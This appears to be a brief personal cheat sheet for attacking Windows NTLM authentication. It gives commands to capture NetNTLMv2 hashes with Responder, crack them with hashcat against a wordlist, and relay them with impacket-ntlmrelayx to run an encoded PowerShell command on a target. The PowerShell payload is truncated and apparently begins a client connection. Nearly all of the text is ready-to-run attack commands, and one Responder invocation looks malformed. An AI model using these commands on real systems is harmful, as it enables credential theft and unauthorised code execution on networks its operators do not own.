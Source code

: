 # NETNTLMV2
#responder
```
sudo responder -I -A tun0

# NETNTLMV2
```

#crack 
```
hashcat -m 5600 [hash file] /usr/share/wordlists/rockyou.txt --force
```

#relay 
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t [ip] -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```